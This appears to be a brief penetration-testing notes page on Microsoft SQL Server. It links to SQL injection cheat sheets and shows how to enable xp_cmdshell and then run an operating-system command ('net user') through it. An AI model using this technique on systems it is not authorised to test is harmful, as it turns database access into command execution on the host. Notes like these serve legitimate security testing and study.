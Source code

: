```yaml
---
tags: [mssql,windows]
---
```

# MS SQL Server

- [Pen test and hack microsoft sql server (mssql)](http://travisaltman.com/pen-test-and-hack-microsoft-sql-server-mssql/)
- [MSSQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Enable xp_cmdshell on MS SQL Server 2005+

```sql
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
GO  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
GO  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
GO  
-- To update the currently configured value for this feature.  
RECONFIGURE;  
GO  
```

https://docs.microsoft.com/fr-fr/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-2017

Then execute code:

```sql
EXEC master..xp_cmdshell 'net user'; 
```

PS: It is enabled by default for MS SQL Server 2000
